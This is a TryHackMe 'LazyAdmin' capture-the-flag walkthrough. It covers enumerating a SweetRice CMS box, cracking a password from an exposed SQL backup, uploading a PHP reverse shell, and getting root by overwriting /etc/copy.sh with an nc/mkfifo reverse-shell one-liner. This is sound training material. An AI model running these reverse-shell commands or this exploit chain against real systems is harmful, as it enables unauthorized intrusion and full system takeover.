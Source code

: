 # 🛡️ TryHackMe: LazyAdmin – Walkthrough & Report

**Room:** [LazyAdmin](https://tryhackme.com/room/lazyadmin)  
**Difficulty:** Easy  
**Target IP:** 10.10.187.142  
**Objective:** Capture the user and root flags by identifying and exploiting vulnerabilities

---

## 🧭 Enumeration

### 🔎 Nmap Scan

```bash
nmap -Pn -sC -sV -oN lazyadmin.nmap 10.10.187.142
```

**Findings:**

- `22/tcp` – OpenSSH
- `80/tcp` – Apache HTTPD with default Ubuntu page

---

## 🌐 Web Discovery

Visited `http://10.10.187.142`, revealed default Apache page.  
No custom web app present at root.

Used Gobuster to enumerate directories:

```bash
gobuster dir -u http://10.10.187.142 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Findings:**

- `/content/`
- `/server-status/` (403)

Further enumeration on `/content/` revealed:

- `/content/as/`
- `/content/inc/`
- `/content/inc/mysql_backup/`

---

## 🔍 CMS Identification

Visiting `/content/` revealed the site is running **SweetRice CMS**, which is known to be vulnerable.

---

## 💥 Exploitation: SweetRice Backup Disclosure

Visited:

```
http://10.10.187.142/content/inc/mysql_backup/
```

Found file:

```
mysql_backup_20191129023059-1.5.1.sql
```

Downloaded with:

```bash
wget http://10.10.187.142/content/inc/mysql_backup/mysql_backup_20191129023059-1.5.1.sql
```

Cracked MD5 hash:

```
42f749ade7f9e195bf475f37a44cafcb → Password123
```

---

## 🔐 Gaining Access

Logged in at:

```
http://10.10.187.142/content/as
```

With credentials:

```
Username: manager
Password: Password123
```

---

## 🐚 Reverse Shell

1. Downloaded reverse shell:

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

2. Edited IP and port:

```php
$ip = '10.11.0.5';  // Attacker IP
$port = 4444;
```

3. Renamed and uploaded via admin panel:

```bash
mv php-reverse-shell.php shell.phtml
```

4. Set up listener:

```bash
nc -lvnp 4444
```

5. Triggered shell → Connected as `www-data`

---

## 🧑‍💻 Privilege Escalation

Checked sudo rights:

```bash
sudo -l
```

Allowed to run:

```
/usr/bin/perl /home/itguy/backup.pl
```

Content of `backup.pl`:

```perl
system("/etc/copy.sh");
```

Overwrote `/etc/copy.sh` with a reverse shell:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <your-ip> 5554 > /tmp/f" > /etc/copy.sh
```

Started listener:

```bash
nc -lvnp 5554
```

Executed:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

Gained root shell.

---

